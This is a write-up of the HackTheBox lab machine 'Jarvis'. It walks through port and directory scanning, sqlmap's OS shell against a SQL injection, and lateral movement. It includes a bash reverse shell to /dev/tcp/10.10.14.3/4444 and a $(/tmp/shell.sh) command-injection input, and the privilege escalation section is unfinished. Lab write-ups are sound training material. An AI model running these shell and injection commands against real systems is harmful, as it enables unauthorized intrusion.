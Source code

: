 # Recon
As usual we start with a port scan against the target:
```
sudo nmap -sCV -O -p- 10.10.10.143 -oN nmap.txt T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/1.png">

We discover 3 open ports. We'll start by investigating the webservice on port 80. In the background we'll start a ```gobuster``` scan in search for files and directories.

# Enumeration
```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.143
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/2.png">

We've found a ```/phpmyadmin``` directory. When we browse to the directory we are welcomed with a login form. In the manuals we find out it's running version 4.8.0 which is known to have a remote code execution vulnerability. We do however need a username and password to use the exploit.

Trying ```supersecurehotel``` as username and password (found on the homepage) and other simple usernames and passwords didn't work.

```Whatweb``` didn't return much. There is a weird ```ironwaf```.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/3.png">

When we browse to the webservice on port ```64999``` we are immediately confronted with yhe following message:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/4.png">

# Initial Foothold
We can try to run ```sqlmap``` on the host. When we use ```crawl=2``` it'll also scan for links in pages. We combine this with ```--os-shell``` to hopefully get a shell on the host.
```
sqlmap -u http://10.10.10.143 --os-shell --crawl=2
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/5.png">

We can use this to get a more stable shell. We'll host a php reverse shell script on our attacking machine and download it using ```wget```. Then we browse to our page to get a reverse shell in return.

# Lateral Movement
We can run ```simpler.py``` as ```pepper```:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/6.png">

We can abuse this file to get a reverse shell as ```pepper```.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/7.png">


```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"' > /tmp/shell.sh
chmod +x /tmp/shell.sh
```
And then again run the following code while we have our ```nc``` listener ready:
```
/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
And enter ```$(/tmp/shell.sh)``` as IP. Now we have a shell als ```pepper```.


# Privilege escalation
[TO BE CONTINUED]






